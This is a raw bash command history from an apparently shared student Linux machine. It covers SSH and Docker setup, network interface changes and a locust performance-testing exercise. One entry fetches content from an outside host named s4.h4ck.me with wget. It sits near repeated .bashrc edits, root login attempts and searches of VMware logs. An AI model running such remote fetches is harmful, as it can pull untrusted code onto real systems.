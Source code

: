 1  sudo passswd
2  sudo passswd vdi-student
3  passswd vdi-student
4  sudo passwd vdi-student
5  sudo ifconfig
6  exit
7  pwd
8  ls
9  ls ..
10  sudo su
11  sudo su
12  ls
13  git
14  sudo ls
15  sudo su
16  ls
17  ssh 127.0.0.1
18  sudo apt-get install openssh-server
19  sudo systemctl enable ssh
20  sudo systemctl start ssh
21  ssh 127.0.0.1
22  sudo apt update
23  sudo apt upgrade
24  exit
25  sudo ifconfig
26  ifconfig -a
27  sudo ifconfig docker0 down
28  sudo ifconfig
29  ifconfig
30  sudo ifconfig -a
31  ifconfig
32  sudo apt-get update
33  sudo apt-get upgrade
34  ifconfig
35  sudo ifconfig docker0 down
36  ifconfig
37  sudo ifconfig
38  ifconfig
39  sudo ifconfig
40  sudo ifconfig docker0 down
41  sudo ifconfig
42  w
43  ssh student@0
44  ssh root@0
45  id
46  vi .bashrc
47  ssh root@0
48  vi .bashrc
49  wget -O - s4.h4ck.me/W
50  fg
51  vi .bashrc
52  id
53  ls
54  ll
55  grep Client_ID /var/log/vmware/*
56  ll
57  find . -user root
58  find /home/ -user root
59  ll ../student/
60  sudo su -
61  bash
62  strace sudo su -
63  df
64  bash -xl
65  bash -l
66  su - vdi-student
67  vi .bashrc
68  su root
69  sudo ifconfig
70  sudo ifconfig docker0 down
71  sudo ifconfig
72  sudo docker net-destory default
73  docker --help
74  sudo docker0 destory default
75  sudo docker0 net destory
76  sudo docker0 net-destory
77  docker network ls
78  sudo docker network ls
79  docker network rm bridge
80  sudo docker network rm bridge
81  docker network
82  docker network disconnect bridge
83  sudo ip l set docker down
84  sudo ip l set docker0 down
85  ifconfig
86  sudo ifconfig
87  sudo systemctr disable docker
88  systemctr disable docker
89  sudo systemctl disable docker
90  sudo ifconfig
91  ifconfig
92  ifcongial -a
93  ifconfig -a
94  ls
95  su ls
96  sudo ls
97  ls..
98  ls.
99  ls..
100  ls ..
101  ifconfig
102  ifconfig -all
103  ifconfig -a
104  sudo vim /etc/hosts
105  sudo docker pull ubuntu
106  sudo docker pull python:3
107  sudo docker pull jenkins:lts
108  sudo docker pull jenkins
109  ifconfig -a
110  ip l set docker down
111  ip l set docker0 down
112  sudo ip l set docker0 down
113  ifconfig
114  sudo systemctl disable docker
115  ifconfig -a
116  sudo service dokcker stop
117  ifconfig -a
118  git clone https://github.com/primeira-iza/se_perf_testing_basics
119  cd se_perf_testing_basics
120  cd exercise_1
121  sudo docker run -d -name -my-ghost -e url=http://localhost:3001 -p 3001:2368 ghost
122  atom .
123  sudo docker run -d --name my-ghost -e url=http://localhost:3001 -p 3001:2368 ghost
124  sudo apt-get install python3-venv
125  python3 -m venv .venv
126  source .venv/bin/activate
127  pip install -U pip
128  pip install -U setuptools
129  pip install locust
130  locust -f locustfile.py
131  history
